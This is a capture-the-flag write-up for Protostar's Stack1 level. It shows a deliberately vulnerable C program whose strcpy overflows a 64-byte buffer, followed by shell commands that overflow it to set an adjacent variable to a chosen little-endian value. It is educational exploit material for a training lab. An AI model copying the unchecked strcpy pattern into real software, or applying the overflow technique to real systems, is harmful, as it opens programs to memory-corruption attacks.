 #### Stack1

###### About

- This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

- This level is at ``/opt/protostar/bin/stack1``

- Hints
	- If you are unfamiliar with the hexadecimal being displayed, ``man ascii`` is your friend.
	- Protostar is little endian

``stack1``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack1 AAA
Try again, you got 0x00000000
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./stack1 `python -c "print 'A'*68"`
Try again, you got 0x41414141
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./stack1 `python -c "print 'A'*64 + '\x64\x63\x62\x61' " `
you have correctly got the variable to the right value
user@protostar:/opt/protostar/bin$
```